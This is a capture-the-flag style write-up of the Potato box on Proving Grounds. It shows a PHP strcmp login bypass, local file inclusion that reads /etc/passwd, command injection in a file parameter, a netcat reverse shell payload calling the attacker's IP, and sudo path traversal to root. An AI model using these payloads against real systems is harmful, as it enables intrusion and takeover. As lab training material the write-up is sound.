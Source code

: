 ```yaml
---
title: Potato Writeup - Proving Grounds
categories:
  - Writeup
  - Proving_Grounds
tags:
  - Command Injection
  - LFI
  - Sudo 
ShowToc: true

---
```


## NMAP

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ef:24:0e:ab:d2:b3:16:b4:4b:2e:27:c0:5f:48:79:8b (RSA)
|   256 f2:d8:35:3f:49:59:85:85:07:e6:a2:0e:65:7a:8c:4b (ECDSA)
|_  256 0b:23:89:c3:c0:26:d5:64:5e:93:b7:ba:f5:14:7f:3e (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Potato company
|_http-server-header: Apache/2.4.41 (Ubuntu)
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Checking FTP first and then downloading both files.
`ftp 192.168.243.101 2112`

index.php.bak
```php
<?php                                                                                                                      
$pass= "potato"; //note Change this password regularly                                                       
if($_GET['login']==="1"){                                                                                             
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {              
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";                                                                                                                                                                 
    setcookie('pass', $pass, time() + 365*24*3600);                                                                   
  }else{                                                                                                              
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }                                                                                                                   
  exit();                                                                                                             
}                                       
?>                                                          
  <form action="index.php?login=1" method="POST">                                                                     
                <h1>Login</h1>                             
                <label><b>User:</b></label>
                <input type="text" name="username" required>
                </br>                               
                <label><b>Password:</b></label>                                                                       
                <input type="password" name="password" required>                                                      
                </br>                                                                                                 
                <input type="submit" id='submit' value='Login' >                                                      
  </form>                                                                                                             
</body>                                                    
</html>
```

the authentication uses `strcmp` which I think can be bypassed

Let's check the web app.

![](2022-07-19-09-18-30.png)

trying out `admin:potato` did not work. So I searched on how to bypass `strcmp` and found this article [doyler](https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016)

adding `[]` to the password param worked and we are logged in

![](2022-07-19-09-21-13.png)

There is a ping function. So I checked that first and tried some basic command injections, but nothing worked. I tried to do some LFI in the `page` parameter as well but did not return anything.

I checked the logs function and it looks like it prints the contents of the chosen log. I checked burp and there is a `file` parameter. Tried LFI with `/etc/passwd` and it worked.

![](2022-07-19-09-24-25.png)

We got two users from the `/etc/passwd` file.

`webadmin`
`florianges`

I checked their `.ssh` folder for any sshkey but nothing. The webadmin user also has its password `webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/webadmin:/bin/bash` So I cracked it

![](2022-07-19-09-27-05.png)

Tried ssh but did not work.

I tried to read `dashboard.php` and noticed that it is executing commands using `shell_exec`

![](2022-07-19-09-33-58.png)

I think this is executing `cat` against `logs/+whatever is in the file param` So maybe we can also chain another command after the `cat` execution. 

I tried `sleep 5` and I got a 5 second delay. so tried `whoami`

![](2022-07-19-09-36-55.png)

And we got command execution. 

Tried a netcat reverse shell and it worked. `file=;rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+192.168.49.243+80+>/tmp/f` 

I ran `linpeas.sh` but nothing interesting. and then I remember we have creds for `webadmin` I tried to `su webadmin` and it worked. I added my sshkey to `webadmin's` ssh folder for a better shell.

First thing I tried is check my sudo rights as we have creds. `(ALL : ALL) /bin/nice /notes/*` Here we can se we can run the command `nice` against anything in the `/notes` directory. so I tried `sudo /bin/nice /notes/../../../../../usr/bin/whoami` and the output was `root` so it did run whoami as `root` as it only checks the initial `/notes` and does not care if I go back a directory. From here we can just run `/bin/bash`

![](2022-07-19-10-21-24.png)

And we are root!~

